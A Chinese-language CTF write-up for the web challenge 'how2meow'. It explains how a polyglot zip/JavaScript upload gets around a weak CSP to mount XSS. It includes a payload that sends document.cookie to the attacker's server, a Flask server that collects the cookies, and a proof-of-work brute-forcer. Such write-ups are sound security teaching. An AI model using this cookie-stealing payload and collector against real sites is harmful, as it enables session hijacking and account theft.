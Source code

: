 # how2meow

Web, 251/500 Points

Auther: **kaibro**

Writeup By: **yctseng1227**

## Description

> 由於官方題目網站已關閉，以下只能簡述題目

從題目給的網站，我們有三種操作頁面大致如圖。

![](./arch.png)

## Solution

> 由於官方題目網站已關閉，以下只能拿競賽期間的截圖作為示意圖

### 初步操作

- Meow me

    隨意輸入字串，送出後只會吐出輸入的的字串。

- Meow Uploader

    上傳任何檔案，送出後只會吐出該檔案的副檔名。

    另外還有提供 `Meow src` 可以從source code觀察後台執行方式。

- Report to admin

    可以輸入URL以及PoW驗證，很明顯是拿flag的最後一步。


### 實際操作

從 `Meow me` 頁面按下`F12`可以發現亮了一大片紅字 =口=!!

![](./01.png)

拿去 [CSP-evaluator](https://csp-evaluator.withgoogle.com/) 發現該網站CSP機制不完全，可嵌入在該網站上傳的檔案。

從 `Meow Uploader` 可以點 `Meow src`(source code) 發現上傳只接受副檔名為 `.meow` 的檔案，接著對其檔案執行 `unzip` 指令，檢查解壓縮後為 `meow` 的檔含，是否開頭為 "edu-ctf" 字串，若檢查皆成功，將成功上傳檔案，否則上傳檔案失敗。

因此配合前面提到的 `Meow me` ，我們可以對剛檔案做一些壞壞的事^~^+


[m.meow]()
```
document.location='http://140.117.xxx.xxx:9487/?c=' + document.cookie;
/*
PK...
*/
```


以 `m.meow` 來說，除了原本壓縮檔的binary code，我們在開頭插入JS code，想藉由跳轉的方式，讓admin的cookies能夠自動傳到我們自己建的伺服器中，而該檔案上傳到官方伺服器後，會出現該檔案的位置（示意圖如下）。

![](./03.png)


既然有了檔案在官方伺服器的位置，那我們也能夠利用 `Meow me` 輸入JS code去觸發該檔案讓其執行`m.meow`內的JS code（示意圖如下）。

![](02.png)

作為Web初學者，下方也說明一下如何快速自建伺服器。

> 作業環境 Ubuntu 18.04 / Python 3.6

```shell
sudo pip3 install flask
sudo pip3 install flask_cors
python3 app.py
```

[app.py]()
```python
from flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
CORS(app)

@app.route('/')
def index():
    cookie = request.args.get('c', None)
    if cookie:
        return cookie
    return 'hELLo'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9487)
```

建好伺服器後，送出 `Meow me` 的時候應該多少會收到PHPSESSID，那就是有成功運作～

而 `Meow me` 頁面送出 URL request 就是我們最後要拿去 `Report to admin` 的XSS URL。

除此之外，還需要計算PoW，相關介紹可以參考另一篇 Writeup [Ponzi Scheme](../Ponzi\ Scheme/readme.md)，不過作法上可以直接Python用排列組合爆搜答案即可。

```python
#!/usr/bin/env python3
import itertools
import string
from hashlib import *
from pwn import *

cond = "kaibro"
#cond = r.recvuntil("'").decode('ascii').rstrip("'")
ans = ''
alphanumeric = string.ascii_uppercase + string.ascii_lowercase + string.digits
for s in itertools.product(alphanumeric, repeat=4):
    if md5(('%s%s'%(cond, ''.join(s))).encode('utf-8')).hexdigest().startswith('6b509'):
        ans = cond + ''.join(s)
        break

print(ans)
```

最後送出 `Report to admin` 結果如下，可以從自建的伺服器收到官方傳過來的 admin's cookies，稍微整理一下就是FLAG啦！


![](./04.png)


**`FLAG{u_r_m3ow_xss_m4ster}`**


---

延伸閱讀：
- [Content-Security-Policy](https://devco.re/blog/2014/04/08/security-issues-of-http-headers-2-content-security-policy/)
- [同源政策（Same Origin Policy）](https://medium.com/@jaydenlin/same-origin-policy-同源政策-一切安全的基礎-36432565a226)
